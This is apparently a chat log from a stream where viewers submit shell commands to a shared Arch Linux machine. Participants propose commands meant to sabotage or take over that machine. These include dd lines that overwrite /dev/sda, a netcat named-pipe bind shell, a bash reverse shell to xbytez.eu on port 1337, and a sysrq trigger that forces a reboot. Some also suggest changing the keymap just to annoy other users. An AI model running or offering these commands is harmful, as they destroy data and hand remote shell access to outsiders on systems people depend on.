 I used nmap to track packets and log them into a db. then i made a little program to visualize it with colors
 

vitimiti: I want to run loadkeys de
7:26hitlurcat: somebody should switch the region to Russia and install myBB
7:26vitimiti: Just to piss people off
7:26HMage: Vitimiti now that's evil
7:26vitimiti: Yes
XDjackieXD: @Vitimiti this would screw up the chat input system
7:26HMage: I applaud you :D
7:27vitimiti: I was thinking about loadkeys es but Spanish keyboard is around many countries
7:27HMage: loadkeys ru

`nohup dd if=/dev/zero of=/dev/sda bs=1M &`

`dd if=/dev/random of=/dev/sda bs=1m`

`fdisk -l`

 `echo imgay > /dev/sda`

7:35wongmjane: create a init script that only reboots the system

Reverse SSH-tunneling

7:42inluck_nl: use autossh to maintain a reverse ssh tunnel
7:42inluck_nl: much easier than vpn

7:46HMage: how many times people will vote for `cat /proc/cpuinfo` and `free`?



`mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc -l -p 6666 1>/tmp/backpipe`

7:50whiletrueinstallgentoo: oh god the **bikeshedding** in this stream is gonna be intense

7:49Blu5ky: `mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc -l -p 6666 1>/tmp/backpipe`
7:49bartekww: ls
7:49Blu5ky: then make your install from home
7:50HMage: Blu5ky no public IP
7:50mastermat64: remember guys that they said they would make a raffle if we succed to do "twitch plays arch plays pokemon"
7:50xBytez: then do it reverse!
7:500xicl33n: TOR HIDDEN SERVICE
7:50Blu5ky: `mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc @home -p 6666 1>/tmp/backpipe`
7:50Blu5ky: thne :)
7:50xBytez: `bash -i >& /dev/tcp/xbytez.eu/1337 0>&1`
7:50xBytez: oh yeah mknod will also work

$ `echo 1 > /proc/sys/kernel/panic && echo 1 /proc/sys/kernel/sysrq && echo b > /proc/sysrq-trigger`